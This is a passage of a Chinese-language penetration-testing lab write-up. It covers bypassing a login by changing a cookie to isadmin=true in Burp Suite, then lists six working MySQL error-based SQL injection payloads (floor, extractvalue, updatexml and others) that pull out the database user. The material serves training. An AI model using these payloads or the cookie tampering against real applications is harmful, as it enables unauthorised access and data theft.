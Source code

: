 ![image016.png](https://upload-images.jianshu.io/upload_images/4838174-d619481c61380103.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![image017.png](https://upload-images.jianshu.io/upload_images/4838174-ad1cd2fdd1d07e61.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![image018.png](https://upload-images.jianshu.io/upload_images/4838174-7781e541e77a287a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![image019.png](https://upload-images.jianshu.io/upload_images/4838174-8c79d2912a2cff41.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![image020.png](https://upload-images.jianshu.io/upload_images/4838174-c73f443f904820bf.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![image021.png](https://upload-images.jianshu.io/upload_images/4838174-ca70ef865f04e964.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
](https://upload-images.jianshu.io/upload_images/4838174-9805fd1244848200.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## Cookie操作  
考察cookie绕过，真实渗透中cookie中会有类似0、1类型标识，修改cookie获取管理员权限等
Burpsuite抓包
修改isadmin=true 
 
## SQL注入三 
主要考察报错注入  实战中也比较多
Burpsuite抓包
加’或者\报错 而且单参数进入多条sql语句查询
直接使用报错注入语法：
以下10中mysql报错注入 
1. floor()
```
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

2. extractvalue()
```bash
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```
3. updatexml()
```bash
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```

4. geometrycollection()
```bash
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```

5. multipoint()
```bash
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```

6. polygon()
```
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
```
